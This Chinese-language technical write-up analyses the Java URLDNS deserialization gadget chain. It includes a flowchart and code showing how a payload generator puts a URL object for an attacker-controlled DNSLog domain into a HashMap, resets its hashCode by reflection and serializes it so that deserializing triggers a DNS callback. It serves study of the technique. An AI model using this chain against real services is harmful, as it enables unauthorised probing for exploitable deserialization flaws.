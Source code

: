 ## 整体架构分析

> 第一段代码：`UrlDnsChain` - **攻击载荷生成器**
>
> 第二段代码：`UnSerializableDemo` - **漏洞触发模拟器**

```mermaid
flowchart TD
    A[UrlDnsChain.main] --> B[创建HashMap和URL对象]
    B --> C[反射修改URL.hashCode为11234]
    C --> D[HashMap.putURL,1不触发DNS]
    D --> E[反射恢复URL.hashCode为-1]
    E --> F[序列化HashMap到dns.txt]
    F --> G[UnSerializableDemo.main]
    G --> H[读取dns.txt文件]
    H --> I[ObjectInputStream.readObject]
    I --> J[触发HashMap.readObject]
    J --> K[触发URL.hashCode计算]
    K --> L[发起DNS查询]
    L --> M[DNSLog平台收到记录]
```

## 详细技术原理分析

### 1. 载荷生成阶段 (`UrlDnsChain`)

```java
HashMap<Object, Integer> objectObjectHashMap = new HashMap<>();
URL url = new URL("https://ddbxplkdlx.yutu.eu.org");
```
- **创建容器**: HashMap作为反序列化的入口点
- **恶意URL**: 指向攻击者控制的DNSLog域名

```java
Field hashCode = aClass.getDeclaredField("hashCode");
hashCode.setAccessible(true);
hashCode.set(url, 11234);  // 关键操作1: 防止立即触发
```
- **反射技巧**: 修改URL内部状态
- **设置hashCode=11234**: 避免put时触发DNS
- **为什么是11234?**: 任意非-1的值都可以

```java
objectObjectHashMap.put(url, 1);  // 安全操作
```
- **此时安全**: 因为hashCode≠-1，直接返回值，不计算新hash
- **URL.hashCode()逻辑**:
  ```java
  if (hashCode != -1) return hashCode;  // 直接返回11234
  // 不会执行到handler.hashCode(this)的DNS触发部分
  ```

```java
hashCode.set(url, -1);  // 关键操作2: 为触发做准备
```
- **恢复为-1**: 确保反序列化时重新计算hashCode
- **序列化时状态**: URL对象的hashCode字段值为-1
